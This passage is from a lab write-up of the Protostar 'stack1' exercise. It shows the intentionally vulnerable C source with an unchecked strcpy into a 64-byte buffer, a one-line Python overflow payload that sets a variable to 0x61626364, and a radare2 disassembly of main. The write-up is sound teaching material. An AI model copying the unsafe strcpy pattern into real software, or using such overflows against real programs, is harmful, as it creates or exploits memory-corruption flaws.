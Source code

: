 
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

In the second example the unsafe function strcpy is used to copy the argument, independent of it's length, into the buffer. This will also result in a buffer overflow in case the argument is more than 63 characters.

```sh
┌──(kali㉿kali)-[~/vulnhub/protostar-2/bin]
└─$ ./stack1 hello                              
Try again, you got 0x00000000
                                                                                                                             
┌──(kali㉿kali)-[~/vulnhub/protostar-2/bin]
└─$ ./stack1 $(python -c "print('a'*64+'dcba')")
you have correctly got the variable to the right value
```

We can see in the code that the value of the variable modified needs to be set to 0x61626364. As we're using little endian we'll turn this backwards when overwriting the memory. As 0x61626364 is the same an "abcd" our input becomes 64 characters of random stuff and then "dcba".

---

Imagining that we didn't have the source code. Could we have found the solution easily be disassembling the function main()?

```sh
┌──(kali㉿kali)-[~/vulnhub/protostar-2/bin]
└─$ r2 -d -A stack1   
...
[0xf7fe25b0]> pdf @main
            ; DATA XREF from entry0 @ 0x80483c7(w)
┌ 115: int main (char **argv, char **envp);
│           ; arg char **argv @ ebp+0x8
│           ; arg char **envp @ ebp+0xc
│           ; var int32_t var_4h @ esp+0x4
│           ; var int32_t var_1ch @ esp+0x1c
│           ; var int32_t var_5ch @ esp+0x5c
│           0x08048464      55             push ebp
│           0x08048465      89e5           mov ebp, esp
│           0x08048467      83e4f0         and esp, 0xfffffff0
│           0x0804846a      83ec60         sub esp, 0x60
│           0x0804846d      837d0801       cmp dword [argv], 1
│       ┌─< 0x08048471      7514           jne 0x8048487
│       │   0x08048473      c7442404a0..   mov dword [var_4h], str.please_specify_an_argument_n ; [0x80485a0:4]=0x61656c70 ; "please specify an argument\n"                                                                                               
│       │   0x0804847b      c704240100..   mov dword [esp], 1
│       │   0x08048482      e801ffffff     call sym.imp.errx           ; void errx(int eval)
│       └─> 0x08048487      c744245c00..   mov dword [var_5ch], 0
│           0x0804848f      8b450c         mov eax, dword [envp]
│           0x08048492      83c004         add eax, 4
│           0x08048495      8b00           mov eax, dword [eax]
│           0x08048497      89442404       mov dword [var_4h], eax
│           0x0804849b      8d44241c       lea eax, [var_1ch]
│           0x0804849f      890424         mov dword [esp], eax
│           0x080484a2      e8c1feffff     call sym.imp.strcpy         ; char *strcpy(char *dest, const char *src)
│           0x080484a7      8b44245c       mov eax, dword [var_5ch]
│           0x080484ab      3d64636261     cmp eax, 0x61626364         ; 'dcba'
│       ┌─< 0x080484b0      750e           jne 0x80484c0
│       │   0x080484b2      c70424bc85..   mov dword [esp], str.you_have_correctly_got_the_variable_to_the_right_value ; [0x80485bc:4]=0x20756f79 ; "you have correctly got the variable to the right value"                                              
│       │   0x080484b9      e8dafeffff     call sym.imp.puts           ; int puts(const char *s)
│      ┌──< 0x080484be      eb15           jmp 0x80484d5
│      │└─> 0x080484c0      8b54245c       mov edx, dword [var_5ch]
│      │    0x080484c4      b8f3850408     mov eax, str.Try_again__you_got_0x_08x_n ; str.Try_again__you_got_0x_08x_n
│      │                                                               ; 0x80485f3 ; "Try again, you got 0x%08x\n"           
│      │    0x080484c9      89542404       mov dword [var_4h], edx
│      │    0x080484cd      890424         mov dword [esp], eax
│      │    0x080484d0      e8a3feffff     call sym.imp.printf         ; int printf(const char *format)
│      │    ; CODE XREF from main @ 0x80484be(x)
│      └──> 0x080484d5      c9             leave
└           0x080484d6      c3             ret
[0xf7fe25b0]> 
```

At 0x080484ab we can see a very clear line:
![[Images/Pasted image 20240822144753.png]]

As you can see we even get the reversed string as a comment, very nice!

So it would have been even easier without the source.

